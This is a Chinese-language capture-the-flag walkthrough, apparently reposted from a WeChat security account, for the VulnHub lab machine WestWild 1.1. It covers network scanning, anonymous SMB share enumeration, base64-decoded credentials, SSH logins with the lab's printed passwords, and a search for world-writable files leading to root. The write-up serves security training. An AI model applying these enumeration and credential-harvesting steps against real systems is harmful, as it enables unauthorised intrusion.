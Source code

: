 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YILNRQpm0A4b3b2Iab9mmQ)

大家好，我们是想要为亿人提供安全的亿人安全，这是我们自己想要做的事情，也是做这个公众号的初衷。希望以干货的方式，让大家多多了解这个行业，从中学到对自己有用的知识。

**靶机描述：**

下载地址：http://www.vulnhub.com/entry/westwild-11,338

级别：中级  

**信息收集**  

靶机 ip 扫描

```
arp-scan -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXzZQ51XcadWqXbwKWXSKttp83AtphRtW9Op3s44aJPibMibnRhnJ9Bxgw/640?wx_fmt=png)

```
kali攻击机:192.168.86.138
靶机：192.168.86.167
```

查看开放端口及版本、脚本信息探测

```
nmap -sC -sV -p- 192.168.86.167  --min-rate=2000 
-sC 脚本探测
-sV 版本探测
-p- 全端口探测
--min-rate 带宽配置 加速扫描
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXKRrcIayQzvN4IoUNPqzTIA5vAIIBVcnbIYpL45picFh9qgJxStkQ90g/640?wx_fmt=png)

查看 80 端口页面和目录扫描均没有得到有价值信息，只能由 445 端口入手，它作用是实现一些共享文件夹以及一些共享打印机的访问工作，使用 enum4liux 进行枚举查看可用信息，找到共享目录 wave

```
enum4linux 192.168.86.167
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXibMy9h5yB9XDr2qATNfd7AE8cwTdM3M3cBNXibhC6icicO2H90Zsj1Ofsg/640?wx_fmt=png)

使用 smbclient(samba client) 命令让 Linux 系统显示 Windows 系统所分享的资源

```
smbclient -L \\192.168.86.167
 -L：显示服务器端所分享出来的所有资源
 密码为空密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVX4XGbXpBBroClXMRcNrTh7YzsnkxobbMDmP4YqoCY4HIpMoWJVkd9JA/640?wx_fmt=png)

**FLAG1**
---------

进入共享文件夹查看信息

```
smbclient //192.168.86.167/wave
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXydUmlicl2icWzxnvzBgO3HauFyV81YN3y5uI2dqZIyw68YNOyWvWvpXg/640?wx_fmt=png)

在 kali 里查看信息，拿到 FLAG1

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXP96oiatm6D3JIRukpbtMqfqSqjUOodCkxtI4aScI1hEibtxxdyPYDaRg/640?wx_fmt=png)

使用 base64 进行解码，得到账号密码

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVX5QcGu1ia2MuS1PeG0vfccl53xoYynLktibIG38K3GhB5dVTc6Wf6VbMA/640?wx_fmt=png)

使用 ssh 连接成功

```
wavex/door+open
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXHy7YbDPrLm9vczZYqh9RnxXiaOysfN23jU2sThX5iafbfQUus7fpgwCg/640?wx_fmt=png)

**提权**
------

尝试切换 root 权限失败，使用 find 命令查找可读可写可执行文件，找到用户名 aveng 和密码

```
find / -type f -perm 0777  2>/dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXw0EzUVhqP2AZ31wPGQaxG6hFlUxvHdIqUnmia0ThObmvzU9hf4JdCMA/640?wx_fmt=png)

使用 ssh 连接成功

```
aveng/kaizen+80
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXsFvuoTnxBsXiaTMXoJks5M6GX2D3wicLM4IY9lOAibRPIMlflViaEgr2Ig/640?wx_fmt=png)

**FLAG2**
---------

切换 root 成功

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXicvDyrBlV4LWRjibTTALcIVS9t34PRJhY1aJQ1GMtDzibEB0Avn8ibbjgg/640?wx_fmt=png)

拿到 FLAG2

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpD84NDvY73wCFoB9jCFeVXthoVXWwsffaPsibB64ZlhQvjib1bkNXibicGhzJpasZbcQ7cL22mTUCZpg/640?wx_fmt=png)